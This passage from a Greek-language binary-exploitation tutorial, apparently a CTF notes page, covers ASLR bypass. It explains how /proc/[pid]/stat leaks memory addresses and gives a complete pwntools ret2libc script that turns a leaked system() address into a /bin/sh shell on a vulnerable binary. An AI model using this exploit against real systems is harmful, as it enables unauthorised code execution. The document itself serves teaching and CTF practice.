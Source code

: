 ### Τοπικές Πληροφορίες (`/proc/[pid]/stat`)

Το αρχείο **`/proc/[pid]/stat`** ενός διεργασίας είναι πάντα προσβάσιμο από όλους και περιέχει ενδιαφέρουσες πληροφορίες όπως:

* **startcode** & **endcode**: Διευθύνσεις πάνω και κάτω από το **TEXT** του δυαδικού
* **startstack**: Η διεύθυνση της αρχής του **stack**
* **start\_data** & **end\_data**: Διευθύνσεις πάνω και κάτω από όπου βρίσκεται το **BSS**
* **kstkesp** & **kstkeip**: Τρέχουσες διευθύνσεις **ESP** και **EIP**
* **arg\_start** & **arg\_end**: Διευθύνσεις πάνω και κάτω από όπου βρίσκονται οι **παράμετροι γραμμής εντολής**
* **env\_start** & **env\_end**: Διευθύνσεις πάνω και κάτω από όπου βρίσκονται οι **μεταβλητές περιβάλλοντος**

Επομένως, εάν ο επιτιθέμενος βρίσκεται στον ίδιο υπολογιστή με το δυαδικό που εκμεταλλεύεται και αυτό το δυαδικό δεν περιμένει την υπερχείλιση από ωμέγα ορίσματα, αλλά από μια διαφορετική **είσοδο που μπορεί να δημιουργηθεί μετά την ανάγνωση αυτού του αρχείου**. Είναι δυνατό για έναν επιτιθέμενο να **πάρει μερικές διευθύνσεις από αυτό το αρχείο και να κατασκευάσει μετατοπίσεις από αυτές για την εκμετάλλευση**.

{% hint style="success" %}
Για περισσότερες πληροφορίες σχετικά με αυτό το αρχείο ελέγξτε το [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) αναζητώντας το `/proc/pid/stat`
{% endhint %}

### Έχοντας μια διαρροή

* **Η πρόκληση είναι να δοθεί μια διαρροή**

Εάν σας δίνεται μια διαρροή (εύκολες προκλήσεις CTF), μπορείτε να υπολογίσετε μετατοπίσεις από αυτήν (υποθέτοντας για παράδειγμα ότι γνωρίζετε την ακριβή έκδοση της `libc` που χρησιμοποιείται στο σύστημα που εκμεταλλεύεστε). Αυτό το παράδειγμα εκμετάλλευσης εξάγεται από το [**παράδειγμα από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (ελέγξτε αυτήν τη σελίδα για περισσότερες λεπτομέρειες):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**
